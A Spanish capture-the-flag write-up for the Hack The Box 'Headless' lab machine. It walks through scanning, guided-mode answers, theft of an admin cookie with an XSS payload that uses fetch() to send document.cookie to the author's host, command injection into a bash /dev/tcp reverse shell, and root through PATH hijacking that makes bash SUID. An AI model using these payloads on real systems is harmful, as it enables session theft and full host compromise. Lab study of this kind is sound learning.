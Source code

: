 ```yaml
---
title: Writeup headless - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - headless
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina headless en Hack The Box.
keywords:
  - writeup headless
  - hack the box headless
  - resolución máquina headless
  - headless hack the box
  - htb headless
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Headless)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=-R48V7v7tVY)|[Parte2](https://www.youtube.com/watch?v=aEMhdjy5Txw)
- 🧠 **Explicación resumida**: 

---

#easy #linux #nmap #ping #XSS #abusobinariosyscheck #tratamientotty #export #XSS #whatweb #wappalyzer #gobuster #commandinjection #bash #sudo-l #pathhijacking #echo #nc-nlvp443 #chmod #ls-la #cd #nano 

------------
# Guided Mode

1)¿Cuál es el puerto TCP abierto más alto en la máquina de destino?
	5000

2)¿Cuál es el título de la página que aparece si el sitio detecta un ataque en el formulario de contacto con el servicio de asistencia?
	Hacking Attempt Detected

3)¿Cuál es el nombre de la cookie que se establece para un usuario que ha iniciado sesión en el sitio?
	is_admin

4)¿Cuál es la URL relativa de la página en Headless que requiere autorización para acceder?
	/dashboard

5)¿Cuál es el nombre del parámetro en las solicitudes POST a /dashboard que contiene una vulnerabilidad?
	date

6)¿Cuál es el nombre del usuario con el que se está ejecutando la aplicación web?
	dvir

*La pregunta anterior era la flag de user.txt*
8)¿Cuál es la ruta completa al script que dvir puede ejecutar como cualquier usuario sin contraseña?
	/usr/bin/syscheck bash

9)syscheck llama a otros scripts para recopilar la salida. ¿Cuál es el nombre del script al que se llama con una ruta relativa?
	initdb.sh

------------

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.11.8
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.11.8 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,5000 10.10.11.8 -oN target
```
![[Headless1.png]]
![[Headless2.png]]![[Headless3.png]]![[Headless4.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22` [[ssh]]
	`5000` upnp-HTTP

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.11.8:5000/
```

![[Headless5.png]]

![[Headless6.png]]
Wappalyzer no nos muestra nada, y whatweb nos dice que esta corriendo python, http y una cookie que es *is_admin* que nos llama la atencion

----------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64
```

![[Headless7.png]]
Me da el directorio *dashboard* que seria http://10.10.11.8:5000/dashboard que no nos deja entrar por que no tenemos los permisos suficientes
![[Headless19.png]]

-------
# [[XSS para robar cookies]]

Entramos a la pagina web
![[Headless18.png]]
Apretamos el boton de *For questions*

Y nos envia a esta pagina que tiene un formulario de contacto
![[Headless17.png]]
Interceptamos la peticion con caido y vamos a cambiar el contenido del User-Agent y del parametro de *messege* para hacer un [[XSS para robar cookies]] y obtener la cookie de sesion de la persona que creemos que va a leer nuestro formulario

![[Headless10.png]]
Este va a ser el payload que vamos a inyectar `<img src=x onerror=fetch('http://10.10.16.15:80'+document.cookie);>`
Lo estamos colocando en User-Agent y y en parametro de messege que es el vulnerable. El primer [[XSS para robar cookies]] guarda el payload en el parametro message y despues con el payload de user agent ejecuta el *img* y el *fetch()* envia la cookie a mi server
Todo esto mientras estoy en escucha con [[python3 -m http.server]] con el comando `python3 -m http.server 80`

![[Headless9.png]]
Vemos que al enviar la peticion con payload malicioso [[XSS para robar cookies]]  recibimos la cookie del administrador que ve nuestro formulario

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Ahora cambiamos la cookie de sesion en el [[Caido]] y vemos que ya podemos ingresar a la pagina http://10.10.11.8:5000/dashboard

Y listo ya estamos adentro de la maquina
![[Headless20.png]]

------
# [[Command Injection]]

![[Headless11.png]]
Vemos que si ponemos un ;date nos va a ejecutar el comando que le pongamos ya que nos tira el output de [[id]]

Ahora en el parametro *date* vamos a probar mandarnos una [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]]

vamos a agregar ``;bash -c "bash -i >%26 /dev/tcp/10.10.16.15/443 0>%261"``

![[Headless12.png]]

![[Headless13.png]]
Y ganamos acceso a la maquina

--------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios con [[Abuso de Sudo]] del [[Binario syscheck]] y [[Path Hijacking]]

![[Headless14.png]]
Sabemos que podemos ejecutar el binario */usr/bin/syscheck* como root sin proporcionar contraseña

Buscando en google sobre este binario y como escalar privilegios, encontramos este [post](https://medium.com/@adiamond186/usr-bin-syscheck-is-looking-for-the-initdb-sh-609cd006d913)
Y vemos que al ejecutarse el binario, necesita ejecutar el archivo *initdb.sh* asi que vamos a cambiar el PATH para cuando busque este archivo y modificar el contenido del mismo. Para esto vamos a usar la tecnica [[Path Hijacking]], usando el comando [[echo]] y [[export]]

Vamos a usar `echo $PATH` para ver nuestro PATH actual, luego lo vamos a modificar para que de primeras cuando ejecutamos un binario busque en el directorio */tmp* `export PATH= /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
![[Headless16.png]]

Ahora vamos a la carpeta *tmp* con [[cd]] usando el comando `cd /tmp`

Vamos a crear el archivo initdb.sh con [[nano]] usando el comando `nano initdb.sh` y le vamos a dar permiso de ejecucion con [[chmod]] usando le comando `chmod +x initdb.sh` 

Contenido del archivo *initdb.sh*

```sh
chmod u+s /bin/bash
```
Esto lo que va a hacer es que cuando ejecutemos el binario se va a transformar el [[SUID]] la [[bash]]

Una vez hecho esto vamos a ejecutar con [[sudo]] usando `sudo /usr/bin/syscheck` para que tenga permisos de root, y haga la bash [[SUID]] como dijimos antes. Ahora con [[ls]] usamos `ls -la /bin/bash` y vemos que aparece la *s* asi que se transformo en [[SUID]] y solo nos queda ejecutar la [[bash]] con permisos de admin que para eso usamos el comando `bash -p`
Y listo ya somos root nada mas nos queda catear las flags
![[Headless15.png]]

-------
# Notas

UPnP = sistema que abre puertos del router automáticamente para que los dispositivos puedan comunicarse mejor.

----------
# Creditos
[Writeup de fre1si](https://medium.com/@fre1si/hackthebox-headless-writeup-d7143c837ca0)